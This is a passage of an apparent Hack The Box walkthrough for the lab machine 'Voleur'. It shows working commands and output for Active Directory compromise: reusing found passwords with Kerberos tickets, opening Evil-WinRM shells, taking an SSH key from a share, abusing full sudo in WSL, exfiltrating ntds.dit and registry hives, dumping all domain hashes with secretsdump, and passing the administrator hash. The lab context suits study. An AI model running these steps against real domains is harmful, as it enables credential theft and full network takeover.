Found more credentials

```python
jeremy.combs:qT3V9pLXyN7W4m
```

```python
faketime -f +8h nxc smb dc.voleur.htb -u 'jeremy.combs' -p 'qT3V9pLXyN7W4m' -k
SMB         dc.voleur.htb   445    dc               [*]  x64 (name:dc) (domain:voleur.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc.voleur.htb   445    dc               [+] voleur.htb\jeremy.combs:qT3V9pLXyN7W4m
```
This user is now compromised

This user is also apart of Remote management

```python
faketime -f +8h nxc smb dc.voleur.htb -u 'jeremy.combs' -p 'qT3V9pLXyN7W4m' -k --generate-tgt jeremy_combs 
SMB         dc.voleur.htb   445    dc               [*]  x64 (name:dc) (domain:voleur.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc.voleur.htb   445    dc               [+] voleur.htb\jeremy.combs:qT3V9pLXyN7W4m 
SMB         dc.voleur.htb   445    dc               [+] TGT saved to: jeremy_combs.ccache
SMB         dc.voleur.htb   445    dc               [+] Run the following command to use the TGT: export KRB5CCNAME=jeremy_combs.ccache
```
Ive generate a TGT and exported it so now i can get access via WINRM as this user

## Evil-winrm as `jeremy.combs`
```python
faketime -f +8h evil-winrm -i dc.voleur.htb -r voleur.htb
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jeremy.combs\Documents>
```
I now have access as `jeremy.combs`


```python
faketime -f +8h smbclient -U voleur.htb/'jeremy.combs'%'qT3V9pLXyN7W4m' --realm=voleur.htb //dc.voleur.htb/IT
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jan 29 04:10:01 2025
  ..                                DHS        0  Thu Jul 24 16:09:59 2025
  Third-Line Support                  D        0  Thu Jan 30 11:11:29 2025

		5311743 blocks of size 4096. 993557 blocks available
smb: \> cd "Third-Line Support"
smb: \Third-Line Support\> dir
  .                                   D        0  Thu Jan 30 11:11:29 2025
  ..                                  D        0  Wed Jan 29 04:10:01 2025
  id_rsa                              A     2602  Thu Jan 30 11:10:54 2025
  Note.txt.txt                        A      186  Thu Jan 30 11:07:35 2025

		5311743 blocks of size 4096. 993557 blocks available
smb: \Third-Line Support\> get Note.txt.txt
getting file \Third-Line Support\Note.txt.txt of size 186 as Note.txt.txt (3.1 KiloBytes/sec) (average 3.1 KiloBytes/sec)
smb: \Third-Line Support\> get id_rsa
getting file \Third-Line Support\id_rsa of size 2602 as id_rsa (43.1 KiloBytes/sec) (average 23.1 KiloBytes/sec)
smb: \Third-Line Support\> 
```
This user is apart of `third-line support`

Ive got an SSH key for this user

```python
cat Note.txt.txt 
Jeremy,

I've had enough of Windows Backup! I've part configured WSL to see if we can utilize any of the backup tools from Linux.

Please see what you can set up.

Thanks,

Admin
```
This note talks about windows backup so i wonder if the SSH key is for some form of windows backup user account

## Access as `svc_backup` via WSL
```python
ssh svc_backup@dc.voleur.htb -i id_rsa -p 2222
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
Welcome to Ubuntu 20.04 LTS (GNU/Linux 4.4.0-20348-Microsoft x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Apr  6 20:42:22 PDT 2026

  System load:    0.52      Processes:             9
  Usage of /home: unknown   Users logged in:       0
  Memory usage:   31%       IPv4 address for eth0: 10.129.232.130
  Swap usage:     0%


363 updates can be installed immediately.
257 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu Jan 30 04:26:24 2025 from 127.0.0.1
 * Starting OpenBSD Secure Shell server sshd                                                                    [ OK ] 
svc_backup@DC:~$ 
```
I now have access to WSL as the backup user

```python
svc_backup@DC:~$ sudo -l
Matching Defaults entries for svc_backup on DC:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User svc_backup may run the following commands on DC:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
svc_backup@DC:~$ sudo su 
root@DC:/home/svc_backup#
```
Full sudo permissions as the backup user allows me to become root very easily

## Domain admin
```python
root@DC:/mnt/c/IT/Third-Line Support/Backups# ls -al
total 0
drwxrwxrwx 1 svc_backup svc_backup 4096 Jan 30  2025  .
dr-xr-xr-x 1 svc_backup svc_backup 4096 Jan 30  2025  ..
drwxrwxrwx 1 svc_backup svc_backup 4096 Jan 30  2025 'Active Directory'
drwxrwxrwx 1 svc_backup svc_backup 4096 Jan 30  2025  registry
root@DC:/mnt/c/IT/Third-Line Support/Backups# cd registry/
root@DC:/mnt/c/IT/Third-Line Support/Backups/registry# ls
SECURITY  SYSTEM
```
Found the SAM and SYSTEM hives

```python
scp -i id_rsa -P 2222 svc_backup@dc.voleur.htb:/mnt/c/IT/Third-Line\ Support/Backups/Active\ Directory/* . 
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
ntds.dit                                                                             100%   24MB  12.3MB/s   00:01    
ntds.jfm
```
This download the ntds.dit file

```python
scp -i id_rsa -P 2222 svc_backup@dc.voleur.htb:/mnt/c/IT/Third-Line\ Support/Backups/registry/* . 
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
SECURITY                                                                             100%   32KB 608.9KB/s   00:00    
SYSTEM
```
Now i have both hives and i can dump the hashes

### Access as domain admin
```python
impacket-secretsdump -ntds ntds.dit -system SYSTEM -security SECURITY LOCAL
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xbbdd1a32433b87bcc9b875321b883d2d
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:759d6c7b27b4c7c4feda8909bc656985b457ea8d7cee9e0be67971bcb648008804103df46ed40750e8d3be1a84b89be42a27e7c0e2d0f6437f8b3044e840735f37ba5359abae5fca8fe78959b667cd5a68f2a569b657ee43f9931e2fff61f9a6f2e239e384ec65e9e64e72c503bd86371ac800eb66d67f1bed955b3cf4fe7c46fca764fb98f5be358b62a9b02057f0eb5a17c1d67170dda9514d11f065accac76de1ccdb1dae5ead8aa58c639b69217c4287f3228a746b4e8fd56aea32e2e8172fbc19d2c8d8b16fc56b469d7b7b94db5cc967b9ea9d76cc7883ff2c854f76918562baacad873958a7964082c58287e2
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:d5db085d469e3181935d311b72634d77
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x5d117895b83add68c59c7c48bb6db5923519f436
dpapi_userkey:0xdce451c1fdc323ee07272945e3e0013d5a07d1c3
[*] NL$KM 
 0000   06 6A DC 3B AE F7 34 91  73 0F 6C E0 55 FE A3 FF   .j.;..4.s.l.U...
 0010   30 31 90 0A E7 C6 12 01  08 5A D0 1E A5 BB D2 37   01.......Z.....7
 0020   61 C3 FA 0D AF C9 94 4A  01 75 53 04 46 66 0A AC   a......J.uS.Ff..
 0030   D8 99 1F D3 BE 53 0C CF  6E 2A 4E 74 F2 E9 F2 EB   .....S..n*Nt....
NL$KM:066adc3baef73491730f6ce055fea3ff3031900ae7c61201085ad01ea5bbd23761c3fa0dafc9944a0175530446660aacd8991fd3be530ccf6e2a4e74f2e9f2eb
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 898238e1ccd2ac0016a18c53f4569f40
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:d5db085d469e3181935d311b72634d77:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5aeef2c641148f9173d663be744e323c:::
voleur.htb\ryan.naylor:1103:aad3b435b51404eeaad3b435b51404ee:3988a78c5a072b0a84065a809976ef16:::
voleur.htb\marie.bryant:1104:aad3b435b51404eeaad3b435b51404ee:53978ec648d3670b1b83dd0b5052d5f8:::
voleur.htb\lacey.miller:1105:aad3b435b51404eeaad3b435b51404ee:2ecfe5b9b7e1aa2df942dc108f749dd3:::
voleur.htb\svc_ldap:1106:aad3b435b51404eeaad3b435b51404ee:0493398c124f7af8c1184f9dd80c1307:::
voleur.htb\svc_backup:1107:aad3b435b51404eeaad3b435b51404ee:f44fe33f650443235b2798c72027c573:::
voleur.htb\svc_iis:1108:aad3b435b51404eeaad3b435b51404ee:246566da92d43a35bdea2b0c18c89410:::
voleur.htb\jeremy.combs:1109:aad3b435b51404eeaad3b435b51404ee:7b4c3ae2cbd5d74b7055b7f64c0b3b4c:::
voleur.htb\svc_winrm:1601:aad3b435b51404eeaad3b435b51404ee:5d7e37717757433b4780079ee9b1d421:::
[*] Kerberos keys from ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:f577668d58955ab962be9a489c032f06d84f3b66cc05de37716cac917acbeebb
Administrator:aes128-cts-hmac-sha1-96:38af4c8667c90d19b286c7af861b10cc
Administrator:des-cbc-md5:459d836b9edcd6b0
DC$:aes256-cts-hmac-sha1-96:65d713fde9ec5e1b1fd9144ebddb43221123c44e00c9dacd8bfc2cc7b00908b7
DC$:aes128-cts-hmac-sha1-96:fa76ee3b2757db16b99ffa087f451782
DC$:des-cbc-md5:64e05b6d1abff1c8
krbtgt:aes256-cts-hmac-sha1-96:2500eceb45dd5d23a2e98487ae528beb0b6f3712f243eeb0134e7d0b5b25b145
krbtgt:aes128-cts-hmac-sha1-96:04e5e22b0af794abb2402c97d535c211
krbtgt:des-cbc-md5:34ae31d073f86d20
voleur.htb\ryan.naylor:aes256-cts-hmac-sha1-96:0923b1bd1e31a3e62bb3a55c74743ae76d27b296220b6899073cc457191fdc74
voleur.htb\ryan.naylor:aes128-cts-hmac-sha1-96:6417577cdfc92003ade09833a87aa2d1
voleur.htb\ryan.naylor:des-cbc-md5:4376f7917a197a5b
voleur.htb\marie.bryant:aes256-cts-hmac-sha1-96:d8cb903cf9da9edd3f7b98cfcdb3d36fc3b5ad8f6f85ba816cc05e8b8795b15d
voleur.htb\marie.bryant:aes128-cts-hmac-sha1-96:a65a1d9383e664e82f74835d5953410f
voleur.htb\marie.bryant:des-cbc-md5:cdf1492604d3a220
voleur.htb\lacey.miller:aes256-cts-hmac-sha1-96:1b71b8173a25092bcd772f41d3a87aec938b319d6168c60fd433be52ee1ad9e9
voleur.htb\lacey.miller:aes128-cts-hmac-sha1-96:aa4ac73ae6f67d1ab538addadef53066
voleur.htb\lacey.miller:des-cbc-md5:6eef922076ba7675
voleur.htb\svc_ldap:aes256-cts-hmac-sha1-96:2f1281f5992200abb7adad44a91fa06e91185adda6d18bac73cbf0b8dfaa5910
voleur.htb\svc_ldap:aes128-cts-hmac-sha1-96:7841f6f3e4fe9fdff6ba8c36e8edb69f
voleur.htb\svc_ldap:des-cbc-md5:1ab0fbfeeaef5776
voleur.htb\svc_backup:aes256-cts-hmac-sha1-96:c0e9b919f92f8d14a7948bf3054a7988d6d01324813a69181cc44bb5d409786f
voleur.htb\svc_backup:aes128-cts-hmac-sha1-96:d6e19577c07b71eb8de65ec051cf4ddd
voleur.htb\svc_backup:des-cbc-md5:7ab513f8ab7f765e
voleur.htb\svc_iis:aes256-cts-hmac-sha1-96:77f1ce6c111fb2e712d814cdf8023f4e9c168841a706acacbaff4c4ecc772258
voleur.htb\svc_iis:aes128-cts-hmac-sha1-96:265363402ca1d4c6bd230f67137c1395
voleur.htb\svc_iis:des-cbc-md5:70ce25431c577f92
voleur.htb\jeremy.combs:aes256-cts-hmac-sha1-96:8bbb5ef576ea115a5d36348f7aa1a5e4ea70f7e74cd77c07aee3e9760557baa0
voleur.htb\jeremy.combs:aes128-cts-hmac-sha1-96:b70ef221c7ea1b59a4cfca2d857f8a27
voleur.htb\jeremy.combs:des-cbc-md5:192f702abff75257
voleur.htb\svc_winrm:aes256-cts-hmac-sha1-96:6285ca8b7770d08d625e437ee8a4e7ee6994eccc579276a24387470eaddce114
voleur.htb\svc_winrm:aes128-cts-hmac-sha1-96:f21998eb094707a8a3bac122cb80b831
voleur.htb\svc_winrm:des-cbc-md5:32b61fb92a7010ab
[*] Cleaning up...
```
I now have the administrator hash

```python
faketime -f +8h nxc smb dc.voleur.htb -u administrator -H 'e656e07c56d831611b577b160b259ad2' -k --generate-tgt admin
SMB         dc.voleur.htb   445    dc               [*]  x64 (name:dc) (domain:voleur.htb) (signing:True) (SMBv1:None) (NTLM:False)
SMB         dc.voleur.htb   445    dc               [+] voleur.htb\administrator:e656e07c56d831611b577b160b259ad2 (Pwn3d!)
SMB         dc.voleur.htb   445    dc               [+] TGT saved to: admin.ccache
SMB         dc.voleur.htb   445    dc               [+] Run the following command to use the TGT: export KRB5CCNAME=admin.ccache
```
I have generated a TGT for the domain admin

```python
export KRB5CCNAME=admin.ccache
```

```python
faketime -f +8h evil-winrm -i dc.voleur.htb -r voleur.htb
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         1/29/2025   1:12 AM           2308 Microsoft Edge.lnk
-ar---          4/6/2026   5:43 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
||37997e830a519b5e1add2a6a7ace2cf0||
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 
```
Domain admin!
